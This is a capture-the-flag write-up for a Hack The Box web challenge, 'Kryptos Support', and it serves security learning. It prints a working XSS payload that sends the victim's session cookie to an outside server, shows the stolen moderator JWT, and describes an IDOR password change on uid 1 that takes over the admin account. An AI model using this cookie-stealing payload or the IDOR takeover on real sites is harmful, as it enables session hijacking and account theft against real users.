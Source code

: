 # Kryptos Support (Web)

![Kryptos Ticket Submission](images/kryptos_support1.png)

## Initial Recon

Examing source code and looking at the HTTP requests in BurpSuite, found two endpoints:
- `/api/tickets`
- `/api/login`

GoBuster yielded no usable results.

## XSS Injection

Started an HTTP server on my machine and started experimenting with different XSS payloads.

`python3 -m http.server 80`
  
Found a winner!

`<img src=x onerror="location.href='http://your-web-server/?cookie=' + document.cookie">`

Checking our python3 web server, we can see we've now got a session cookie!

`/?cookie=session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI1MzQ4ODV9.JO12yEA44QxXgfUmL3n6Sm4Et2AJc5rkvXkvSMdmFOI`

Manually put the cookie into your browser, and BOOM, we're logged in as `moderator` and can see the list of support tickets at `/tickets`.

![Kryptos Ticket List](images/kryptos_support2.png)

## Further Exploitation

Once logged in as `moderator`, we can see a link for a "Settings" page in the top left. This page allows you to change your password (without knowing the current password), and uses the endpoint: `/api/users/update`

![Kryptos Password Change](images/kryptos_support3.png)

Capturing a password change for our current session, Burp shows us the following information included in the POST request:

    {
        "password":"test",
        "uid":"100"
    }

Guessing the admin account may have a uid of 1, we use Burp repeater to send the following POST:


    {
        "password":"a",
        "uid":"1"
    }

Now, delete your cookies, return to the `/login` page, and login as `admin:a`.

There's your flag! `HTB{x55_4nd_id0rs_ar3_fun!!}`
